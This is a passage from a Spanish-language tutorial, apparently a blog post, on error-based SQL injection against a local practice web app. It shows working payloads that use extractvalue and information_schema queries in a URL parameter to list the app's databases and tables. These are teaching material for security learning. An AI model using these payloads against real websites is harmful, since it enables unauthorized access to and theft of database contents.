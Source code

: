```sql
SELECT schema_name FROM information_schema.schemata LIMIT 0,1;
```

Donde:

* `0` lo usamos como un índice, con él manejamos el resultado que queremos mostrar, o sea, el valor de la fila 0, después el de la 1, la 2 y así.
* `1` es el número de resultados que queremos obtener, o sea, uno solo.

```html
http://localhost:5000/details?id=2 AND extractvalue(rand(),concat(0x3a,(SELECT schema_name FROM information_schema.schemata LIMIT 0,1)));#
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/articles/sqli-error-based/lanzbSQLIERRORBASED-page5000-details-sqli-information_schema-schemata-limit-0-1.png" style="width: 100%;"/>

Si nos movemos entre los índices obtenemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/articles/sqli-error-based/lanzbSQLIERRORBASED-page5000-details-sqli-information_schema-schemata-limit-1-1.png" style="width: 100%;"/>

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/articles/sqli-error-based/lanzbSQLIERRORBASED-page5000-details-sqli-information_schema-schemata-limit-2-1.png" style="width: 100%;"/>

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/articles/sqli-error-based/lanzbSQLIERRORBASED-page5000-details-sqli-information_schema-schemata-limit-3-1.png" style="width: 100%;"/>

Por lo que solo existen 3 bases de datos:

```sql
information_schema
performance_schema
gamesatin
```

Perfecto, la que nos interesa inicialmente es `gamesatin`.

Para continuar necesitamos conocer los nombres de las tablas asociadas a esa base de datos.

## SQLi Error-Based - Tablas [#](#explotacion-sqli-error-based-tables) {#explotacion-sqli-error-based-tables}

Siguiendo con la metadata alojada en la base de datos [INFORMATION_SCHEMA](https://dev.mysql.com/doc/refman/8.3/en/information-schema.html), ahora usaremos la tabla [TABLES](https://dev.mysql.com/doc/refman/8.3/en/information-schema-tables-table.html) y los campos [TABLE_SCHEMA](https://dev.mysql.com/doc/refman/8.3/en/information-schema-tables-table.html) y [TABLE_NAME](https://dev.mysql.com/doc/refman/8.3/en/information-schema-tables-table.html) para generar la siguiente consulta:

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'gamesatin' LIMIT 0,1;
```

Donde:

* `table_name` extraerá los nombres de las tablas asociadas a la base de datos referenciada en
* `table_schema`, o sea, a **gamesatin**.

```html
http://localhost:5000/details?id=2 AND extractvalue(rand(),concat(0x3a,(SELECT table_name FROM information_schema.tables WHERE table_schema = 'gamesatin' LIMIT 0,1)));#
```
